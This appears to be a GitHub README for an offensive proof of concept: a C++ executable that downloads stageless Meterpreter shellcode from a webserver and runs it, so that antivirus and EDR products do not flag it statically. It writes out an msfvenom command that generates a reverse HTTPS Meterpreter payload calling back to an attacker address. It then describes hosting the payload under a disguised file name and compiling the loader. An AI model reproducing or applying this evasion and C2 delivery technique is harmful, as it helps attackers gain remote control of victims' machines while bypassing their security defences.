 # Shellcode-Downloader-CreateThread-Execution
Also if you use for example **syscalls (nativ APIs)** to execute C2-shellcode with a .exe, you often have the problem, that 
your **compiled .exe** gets **statically flagged by the AV/EPP/EDR**. Many times the reason for this is, that the **C2-shellcode** 
has to be directly **included as string or as a .bin ressource** in the c++ POC and by that the well known C2-shellcode 
(e.g. Metasploit-, CobaltStrike-, Empire Shellcode etc.) is statically flagged by the AV/EPP/EDR. 
This means, no matter which clever technique you would use to bypass prevention/detection in context of API-Hooking, Kernel Callback Function etc. 
your .exe POC will get flagged before you can ever execute it. Also if you want to **compile a c++ POC** in Visual Studio it isn't possible to **include stageless shellcode** in a char string, because the string is **limited in length** (always stay stageless if possible 😉). 

From my experience, depending on the AV/EPP/EDR it isn't often the most important thing to only care about how to bypass the dynamically prevention/detection of an AV/EPP/EDR. At least equally important is to care about how could I bypass the statically prevetion/detection, to maybe break the chain of a maybe following connected dynamicall or in-memory prevention/detection. 

**This POC gives you the possibility to compile a .exe which downloads and executed your stageless C2-shellcode from a webserver**

![image](https://user-images.githubusercontent.com/50073731/160274700-173f342f-1fd8-4080-8e78-d832129a99c6.png)

By that POC we have the advantage, that the shellcode for the C2 reverse shell isn't included as string or as .bin file in the POC.
Trought that we don't have the problem of statically detection of the C2 shellcode by an AV/EPP/EDR, because the shellcode is hosted 
on a webserver. 



**1. Creating stageless shellcode with MSF-Venom**

**kali>** msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.0.1 LPORT=443 -f c --arch x64 --platform windows -o /tmp/meterx64.c

![image](https://user-images.githubusercontent.com/50073731/160274011-82fd0f13-a52c-4f90-93bd-01d39a9872d9.png)



**2. Hosting file with MSF-stageless shellcode on webserver**

Based on the code in the c++ POC the hosted shellcode must be in HEX-Format. To bring the whole MSF-shellcode in one line, you can use the
the line operation function in Notpad++ join lines and then remove not spaces and the double quotes in the string. Only at the beginning and the end
we need from the HEX-shellcode string we need double quotes.

![image](https://user-images.githubusercontent.com/50073731/160274172-4a793332-db0d-465f-b6e9-aa3cf024c8a3.png)

![image](https://user-images.githubusercontent.com/50073731/160274319-9b4284a3-7368-45f1-9eac-fd8456145d5e.png)

![image](https://user-images.githubusercontent.com/50073731/160275882-e1ef7a31-4c07-4fd8-8d51-f1840b9ade89.png)

At the end you can save the file with the stageless MSF-shellcode as a file without any filetype ending, we call it for example **update** and then upload the MSF-Shellcode File on your webserver of choice. 

**3. Change the link in the c++ POC to your MSF-payload**
In this step we change the link in the POC to the link of the webserver on which we have hosted our stageless MSF-Shellcode and compile
it in **Visual Studio as Release x64**.

![image](https://user-images.githubusercontent.com/50073731/160274705-7c608ab1-1137-4f0f-8152-8a722de6a270.png)

**At the end you should have a x64 .exe which do not contain direclty an MSF-C2 shellcode at all and because of that 
most AV/EPP/EDR will not statically flag this POC after the POC was copied to disk on the target.** This POC do **currently 
not use syscalls (Native APIs)** for executing the shellcode, but despite from my past experience the POC will do a nice job 😉.
